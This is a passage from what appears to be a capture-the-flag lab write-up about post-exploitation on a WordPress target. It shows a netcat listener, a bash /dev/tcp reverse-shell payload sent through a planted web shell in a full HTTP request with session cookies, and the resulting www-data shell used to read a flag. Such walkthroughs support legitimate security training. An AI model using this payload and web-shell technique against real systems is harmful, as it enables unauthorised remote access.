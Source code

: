 > And it works! A shell! Yay!
{: .prompt-info }

---

# post exploitation
## reverse shell
Start listener on attacker machine.
```bash
$ nc -lvp 80                  
listening on [any] 80 ...
```

Trigger reverse shell.
payload: `bash -c 'bash -i >& /dev/tcp/192.168.45.186/80 0>&1'`
```bash
GET /wordpress/wp-content/banners/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.186/80+0>%261' HTTP/1.1
Host: loly.lc
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_6cbd66145d405532f25f0b0c2e6ebf30=loly%7C1692207675%7CNN42YdiLky89bmpOKHqoqHfUeRiwpXRAqkLaWV1fEBF%7C79668c764b94e33a84d2f63b10cc4240cf4a6db7f034e3a98dfdb0b0221a0bbe; wp-settings-1=libraryContent%3Dupload; wp-settings-time-1=1692034890
Connection: close
```

Catch connection from target.
```bash
$ nc -lvp 80                  
listening on [any] 80 ...
connect to [192.168.45.186] from loly.lc [192.168.242.121] 38958
bash: cannot set terminal process group (3171): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:~/html/wordpress/wp-content/banners$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## get first flag
```bash
www-data@ubuntu:~$ pwd
pwd
/var/www
www-data@ubuntu:~$ ls
ls
html
local.txt
www-data@ubuntu:~$ cat local.txt
cat local.txt
8*******************************b
```
